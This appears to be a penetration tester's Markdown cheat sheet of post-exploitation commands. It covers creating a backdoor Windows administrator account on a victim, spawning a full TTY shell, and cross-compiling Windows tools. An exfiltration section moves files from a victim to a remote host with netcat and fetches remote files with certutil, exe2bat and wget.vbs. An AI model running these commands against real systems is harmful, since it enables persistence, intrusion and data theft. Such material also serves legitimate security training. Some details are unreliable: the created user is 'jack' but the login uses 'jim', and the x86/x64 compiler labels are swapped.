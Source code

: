 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

- SSH Copy (scp)
```
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat
```
nc -nvlp $RPORT > out.file # Victim

nc -nv $RHOST $RPORT < in.file 
```

- exe2bat
```
 # Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe
```
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```
